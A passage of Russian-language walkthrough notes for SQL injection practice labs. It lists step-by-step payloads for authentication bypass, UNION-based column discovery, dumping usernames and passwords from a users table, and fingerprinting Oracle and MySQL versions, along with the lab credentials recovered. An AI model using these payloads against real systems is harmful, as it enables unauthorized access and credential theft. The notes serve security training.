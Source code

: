 + SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'OR 1=1--".
  + WIN.
+ Lab: SQL injection vulnerability allowing login bypass
  + Открываем форму для ввода логина и пароля.
  + В поле Login вводим "administrator'-- ", а в поле Password любые символы.
  + WIN.
  
+ Lab: SQL injection UNION attack, determining the number of columns returned by the query
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL,+NULL--". Ошибки нет.
  + WIN.
+ Lab: SQL injection UNION attack, finding a column containing text
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL--". Ошибка => дописываем еще NULL.
  + В итоге для urla с дописанной строкой "'+UNION+SELECT+NULL,+NULL,+NULL--" ошибки нет.
  + Вместо каждого NULL подставляем 'a'.
  + Для "'+UNION+SELECT+NULL,+'a',+NULL--" ошибки нет, нашли столбец с текстовыми данными.
  + Вместо 'a' вводим предложенну строку ('sypRvz').
  + WIN.
+ Lab: SQL injection UNION attack, retrieving data from other tables
  + Переходим в один из разделов, например Tech gifts.
  + В строке urla дописываем "' UNION SELECT username, password FROM users--".
  + Видим логин administrator и соответствующий ему пароль t13tj637awscv622pug6, вводим их в форму логина.
  + WIN.
+ Lab: SQL injection UNION attack, retrieving multiple values in a single column
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL+FROM+users--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL+FROM+users--". Ошибки нет.
  + В строке urla дописываем "'+UNION+SELECT+username,+password+FROM+users--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+username||'~'||password+FROM+users--". Ошибки нет.
  + Видим строку administrator~mhzg7sj4crpgoavh769q, вводим в форму логина логин administrator и пароль mhzg7sj4crpgoavh769q.
  + WIN.
  
+ Lab: SQL injection attack, querying the database type and version on Oracle  
  + В строке urla дописываем "'+UNION+SELECT+NULL+FROM+DUAL--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL+FROM+DUAL--". Ошибки нет.
  + В строке urla дописываем "'+UNION+SELECT+BANNER,+NULL+FROM+v$version--". Получаем Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production.
  + WIN.
+ Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL-- /". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL-- /". Ошибки нет.
  + В строке urla дописываем "'+UNION+SELECT+@@version,+NULL-- /". Получаем 8.0.15.
  + WIN.
